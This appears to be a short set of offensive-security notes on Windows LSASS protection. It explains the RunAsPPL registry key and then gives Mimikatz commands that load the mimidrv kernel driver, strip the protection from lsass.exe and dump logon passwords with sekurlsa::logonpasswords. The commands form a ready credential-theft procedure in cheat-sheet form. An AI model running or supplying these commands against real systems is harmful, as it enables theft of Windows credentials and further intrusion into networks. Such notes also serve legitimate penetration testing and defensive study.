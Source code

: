 [[Credentials#LSASS]]
- `lsass.exe` is a protected process. 
### Disabling lsass protection
- Microsoft made lsass.exe a protected process so that it can't be used to dump credentails.
- The lsass protection depends on the registry key `HKLM\SYSTEM\CurrentControlSet\Control\Lsa`. If the `RunASPPL` is set to `1`, lsass protection is enabled.
- Mimikatz can also be used to disable lsass protection. Requires mimidrv to access kernel level access
```powershell
# load mimidrv
!+
# remote protection
!processprotect /process:lsass.exe /remove
# dump credentials
sekurlsa::logonpasswords
```